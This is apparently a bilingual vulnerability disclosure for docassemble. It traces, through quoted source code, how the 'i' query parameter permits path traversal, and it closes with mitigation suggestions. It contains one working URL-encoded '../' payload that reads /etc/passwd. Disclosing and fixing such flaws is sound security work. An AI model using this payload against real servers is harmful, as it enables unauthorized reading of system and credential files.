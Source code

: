 # Unauthorized access through URL manipulation

​	新的版本中依旧存在未授权访问，为了证明漏洞的成因，我给出了我对源码的理解

​	Unauthorized access still exists in the new version. In order to prove the cause of the vulnerability, I gave my understanding of the source code.

```python
# server.py

@app.route(index_path, methods=['POST', 'GET'])
def index(action_argument=None, refer=None):
    ...
    if 'i' not in request.args and 'state' in request.args:
        try:
            yaml_filename = re.sub(r'\^.*', '', from_safeid(request.args['state']))
        except:
            yaml_filename = guess_yaml_filename()
    else:
        yaml_filename = request.args.get('i', guess_yaml_filename())
        ...
        
# backend.py
def guess_yaml_filename():
    yaml_filename = None
    if 'i' in session and 'uid' in session:  # TEMPORARY
        yaml_filename = session['i']
    if 'sessions' in session:
        for item in session['sessions']:
            yaml_filename = item
            break
    return yaml_filename
```

​	只要 i 参数出现在查询参数中，那么就会尝试去读取 i 参数，如果i参数的值为None那么就会从 session中的i和uid获取对应的filename

​	As long as the i parameter appears in the query parameter, it will try to read the i parameter. If the value of the i parameter is None, the corresponding file name will be obtained from i and uid in the session.

```python
# server.py
@app.route(index_path, methods=['POST', 'GET'])
def index(action_argument=None, refer=None):
    ...
    if 'i' not in request.args and 'state' in request.args:
        try:
            yaml_filename = re.sub(r'\^.*', '', from_safeid(request.args['state']))
        except:
            yaml_filename = guess_yaml_filename()
    else:
        yaml_filename = request.args.get('i', guess_yaml_filename())
    ...
		else:
            yaml_filename = re.sub(r':([^\/]+)$', r':data/questions/\1', yaml_filename)
            docassemble.base.functions.this_thread.current_info['yaml_filename'] = yaml_filename
        show_flash = False
        interview = docassemble.base.interview_cache.get_interview(yaml_filename)
```

​	然后将会尝试替换，将以 “/” 开头的参数数值替换为 “:data/questions/”，然后将会调用 docassemble.base.interview_cache.get_interview

​	Then a substitution will be attempted, replacing parameter values starting with "/" with ":data/questions/", Then the docassemble.base.interview_cache.get_interview method will be called

```python
# interview_cache.py
def get_interview(path):
    if path is None:
        raise DAException("Tried to load interview source with no path")
    if cache_valid(path):
        the_interview = cache[path]['interview']
        the_interview.from_cache = True
    else:
        interview_source = docassemble.base.parse.interview_source_from_string(path)
        interview_source.update()
        the_interview = interview_source.get_interview()
        the_interview.from_cache = False
        cache[interview_source.path] = {'index': interview_source.get_index(), 'interview': the_interview, 'source': interview_source}
    return the_interview

def cache_valid(questionPath):
    if questionPath in cache and cache[questionPath]['index'] == cache[questionPath]['source'].get_index():
        return True
    return False
```

​	当前用户并没有登录，所以不存在缓存，将会执行else里面的分支，将会执行docassemble.base.parse.interview_source_from_string方法

​	The current user is not logged in, so there is no cache. The branch in else will be executed, and the docassemble.base.parse.interview_source_from_string method will be executed.

```python
# parse.py
def interview_source_from_string(path, **kwargs):
    if path is None:
        raise DAError("Passed None to interview_source_from_string")
    # logmessage("Trying to find " + path)
    path = re.sub(r'(docassemble.playground[0-9]+[^:]*:)data/questions/(.*)', r'\1\2', path)
    for the_filename in question_path_options(path):
        if the_filename is not None:
            new_source = InterviewSourceFile(filepath=the_filename, path=path)
            if new_source.update(**kwargs):
                return new_source
    raise DANotFoundError("Interview " + str(path) + " not found")
```

​	分支中会根据文件存在与否进行判断，如果文件不存在，那么则会抛出 DANotFoundError("Interview " + str(path) + " not found")，如果文件存在则会根据文件路径实例化一个对象

​	The branch will be judged based on whether the file exists. If the file does not exist, DANotFoundError("Interview " + str(path) + " not found") will be thrown. If the file exists, an object will be instantiated based on the file path.

```	python
def filename_invalid(filename):
    if '../' in filename or filename.startswith('/'):
        return True
    if re.search(r'[^A-Za-z0-9\_\.\-\/ ]', filename):
        return True
```

​	尽管以 "/" 开头的参数值已经被过滤，但是依旧可以通过构造以下payload对文件内容进行访问

​	Although parameter values starting with "/" have been filtered, the file content can still be accessed by constructing the following payload

```http
?i=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```

​	我是通过官网上建议的docker的安装方式安装的

​	I installed it through the docker installation method recommended on the official website.

>docker run -d -p 80:80 -p 443:443 --restart always --stop-timeout 600 jhpyle/docassemble

​	这是我在docker中下载的最新版本的测试

​	This is a test of the latest version I downloaded in docker

![8b3ca76876c7b5b656825a8a3103a3e](E:\360MoveData\Users\HideInDarkness\Documents\WeChat Files\wxid_mfxuz6wprqug12\FileStorage\Temp\8b3ca76876c7b5b656825a8a3103a3e.png)

## 建议 - suggestion:

1. 过滤特殊字符，例如"./"、"../"   Filter special characters, such as "./", "../"
2. 获取的参数先进行URL解码 The obtained parameters are first decoded by the URL.